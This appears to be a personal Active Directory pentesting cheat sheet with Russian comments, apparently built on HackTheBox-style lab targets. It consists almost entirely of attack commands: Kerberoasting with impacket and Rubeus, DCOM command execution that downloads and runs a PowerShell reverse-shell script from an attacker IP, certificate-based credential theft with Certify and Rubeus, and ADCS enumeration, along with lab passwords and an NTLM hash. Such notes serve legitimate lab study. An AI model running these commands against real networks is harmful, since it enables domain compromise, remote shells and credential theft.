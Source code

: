 		cd /home/max/BloodHound-linux-x64_new && ./BloodHound --no-sandbox
  
  		cat 20240201210210_users.json|jq '.data[].Properties | .samaccountname + ":" + .description' -r
* spn (Kerberoasting)
  
		----ntlm

  		impacket-GetUserSPNs -dc-ip 192.168.50.110 vd.local/arly.ayn:Password123 -request

  		-----kerberos
  
		impacket-getTGT voleur.htb/ryan.naylor:HollowOct31Nyt
		export KRB5CCNAME=ryan.naylor.ccache
		impacket-GetUserSPNs -dc-ip 10.10.11.76 -dc-host dc.voleur.htb voleur.htb/ryan.naylor -k -no-pass -request
				---nxc -делает все
  		nxc ldap dc.voleur.htb -d voleur.htb -u svc_ldap -p 'M1XyC9pW7qT5Vn' -k --kerberoasting kerberoastables.txt

  		.\Rubeus.exe kerberoast /stats

  		.\Rubeus.exe kerberoast /nowrap /tgtdeleg
	

* DCOM Abusing

  		impacket-dcomexec -object MMC20 -silentcommand -debug jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 'powershell.exe Invoke-WebRequest -Uri http://10.10.14.94:80/Invoke-PowerShellTcp.ps1 -OutFile C:\Windows\TEMP\shell.ps1'   (выполнение комманд - загрузка скрипта)

  		impacket-dcomexec -object MMC20 -silentcommand -debug jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 'powershell.exe C:\Windows\TEMP\shell.ps1'


# Получение NTLM на основе сертификата пользователя
	#Запрос сертификатата для user

 		.\Certify.exe._obf.exe request /ca:DC01\mist-DC01-CA /template:user
		openssl pkcs12 -in brandon.keywrap.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
  		mv cert.pfx brandon.keywrap.pfx 
		
  		.\Rubeus.exe._obf.exe asktgt /user:brandon.keywarp /certificate:brandon.keywrap.pfx /getcredentials /show /nowrap


# Проверка сертификатов
*** Поиск центра сертификации

		crackmapexec ldap 'dc.sequel.htb' -d 'sequel.htb' -u 'Ryan.Cooper' -p 'NuclearMosquito3' -M adcs
		crackmapexec ldap 172.16.117.3 -u administrator -H d1e532fdcdea711011a6b13bcf390401 -M adcs -o SERVER=INLANEFREIGHT-DC01-CA  (поиск шаблонов сертификатов)
	Копирование корневого сертификата (если есть права)
	certutil -exportPFX my "Certificate-LTD-CA" ca.pfx	(Certificate-LTD-CA - из вывода certipy)
*** Поиск уязвимых шаблонов
  		
